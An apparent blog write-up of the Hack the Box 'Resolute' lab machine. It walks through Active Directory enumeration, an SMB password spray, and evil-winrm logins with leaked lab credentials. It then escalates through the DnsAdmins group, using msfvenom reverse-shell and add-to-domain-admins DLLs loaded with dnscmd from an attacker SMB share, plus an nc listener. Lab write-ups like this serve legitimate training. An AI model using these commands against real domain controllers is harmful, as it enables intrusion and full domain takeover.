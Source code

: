 +++
title = "Hack the Box: Resolute"
date = 2023-01-29
description = "Hack the Box: Resolute"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Resolute

<!--more-->

# Resolute

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC resolute.htb -nvv -e tun0 -p- -A -T4

PORT      STATE    SERVICE         REASON      VERSION
2/tcp     filtered compressnet     no-response
53/tcp    open     domain?         syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open     kerberos-sec    syn-ack     Microsoft Windows Kerberos (server time: 2020-05-07 08:32:52Z)
135/tcp   open     msrpc           syn-ack     Microsoft Windows RPC
139/tcp   open     netbios-ssn     syn-ack     Microsoft Windows netbios-ssn
389/tcp   open     ldap            syn-ack     Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds    syn-ack     Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open     kpasswd5?       syn-ack
593/tcp   open     ncacn_http      syn-ack     Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped      syn-ack
1082/tcp  filtered amt-esd-prot    no-response
2966/tcp  filtered idp-infotrieve  no-response
3268/tcp  open     ldap            syn-ack     Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped      syn-ack
5145/tcp  filtered rmonitor_secure no-response
5985/tcp  open     http            syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open     mc-nmf          syn-ack     .NET Message Framing
12098/tcp filtered unknown         no-response
22723/tcp filtered unknown         no-response
47001/tcp open     http            syn-ack     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49665/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49666/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49667/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49671/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49676/tcp open     ncacn_http      syn-ack     Microsoft Windows RPC over HTTP 1.0
49677/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49688/tcp open     msrpc           syn-ack     Microsoft Windows RPC
49709/tcp open     msrpc           syn-ack     Microsoft Windows RPC
53759/tcp open     unknown         syn-ack
61911/tcp filtered unknown         no-response
64832/tcp filtered unknown         no-response
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=5/7%Time=5EB3C544%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h30m30s, deviation: 4h02m31s, median: 10m28s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 13101/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Timeout)
|   Check 4 (port 45712/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-07T01:33:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-07T08:33:42
|_  start_date: 2020-05-07T06:58:19
```

Judging by the services that are running on this system, it looks like an Active Directory domain controller. Since we don’t have any meaningful access, let’s see if we can find anything interesting from the SMB service. Port 139 and 445 are open, we can try to attack them.

`msf5 > auxiliary/scanner/smb/smb_ms17_010` `msf5 > auxiliary/scanner/smb/smb_version`

- `smbclient -L \\\\@ip\\`
- `smbclient -L \\\\@ip\\<share>$`

From enum4Linux we get a list of users and a password who was into a description:

```
# enum4linux resolute.htb
Domain Name: MEGABANK
Domain Sid: S-1-5-21-1392959593-3013219662-3596683436
```

MEGABANK\Administrator MEGABANK\DefaultAccount MEGABANK\krbtgt MEGABANK\MS02

KaTeX parse error: Undefined control sequence: \RESOLUTE at position 10: MEGABANK\̲R̲E̲S̲O̲L̲U̲T̲E̲

MEGABANK\ryan MEGABANK\marko - Desc: Account created. Password set to Welcome123! MEGABANK\sunita MEGABANK\abigail MEGABANK\marcus MEGABANK\sally MEGABANK\fred MEGABANK\angela MEGABANK\felicia MEGABANK\gustavo MEGABANK\ulf MEGABANK\stevie MEGABANK\claire MEGABANK\paulo MEGABANK\steve MEGABANK\annette MEGABANK\annika MEGABANK\per MEGABANK\claude MEGABANK\melanie MEGABANK\zach MEGABANK\simon MEGABANK\naoki MEGABANK\Guest

```
# sudo ldapdomaindump 10.10.10.169 -u MEGABANK\\melanie -p Welcome123!
```

![f405ab99ddb5a838ea5603bbb169e2c7.png](file:///C:/Users/Robin/.config/joplin-desktop/resources/ab0234a7ea8d4c75bac4935c9033068e.png)

## Foothold

We bruteforce the smb login with the password and the list of users:

```
# msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE ~/Downloads/users.txt
[+] 10.10.10.169:445      - 10.10.10.169:445 - Success: 'MEGABANK\melanie:Welcome123!'
```

We can connect using melanie credentials through evil-winrm because the port 5985 is open:

```
# sudo evil-winrm -i resolute.htb -u melanie -p Welcome123!
# cat user.txt
0c3be45fcfe249796ccbee8d3a978540
```

`Get-ADPrincipalGroupMembership melanie | select name` to get the groups where melanie is in.

## Privilege Escalation

Those doesn’t give anything interesting:

```
# upload winPEAS.exe
# powershell "C:\.....\winPEAS.exe cmd fast"
# watson
# powersploit powerup
```

Reaveal hidden directories and files:

```
# get-childitem -force in C:\
```

And we find a new account, part of DNSDomain group:

```
# get-childitem -force
# C:\PSTranscripts\20191203\PowerShell transcript file
# ryan Serv3r4Admin4cc123!
```

We can open a new winrm session with this account:

```
# sudo evil-winrm -i resolute.htb -u ryan -p Serv3r4Admin4cc123\!
```

`[Environment]::Is64BitOperatingSystem` in order to know the system’s arch.

We can now prepare the payloads, choose one :

```
# msfvenom -p windows/x64/exec cmd='net group "domain admins" melanie /add /domain' --platform windows -f dll > ./dns.dll
or
# msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=10.10.15.77 LPORT=1234 -f dll > rs.dll
```

Then open a SMB share from impacket:

```
# sudo impacket-smbserver -smb2support TMP /tmp
or
# sudo impacket-smbserver -smb2support -debug SHARE /tmp
```

from ryan’s evil winrm sessions:

```
# C:\Windows\System32\dnscmd.exe /config /serverlevelplugindll \\10.10.15.77\tmp\dns.dll
or
# C:\Windows\System32\dnscmd.exe /config /serverlevelplugindll \\10.10.15.77\tmp\rs.dll
```

And then restart the service with:

```
# sc.exe query dns
# sc.exe stop dns
# sc.exe start dns
```

You can now connect into a new evil-winrm session using melanie’s credentials. If you have choosed the second payload you don’t need to, you must start a listener with `nc -lvnp 1234` and wait a shell.

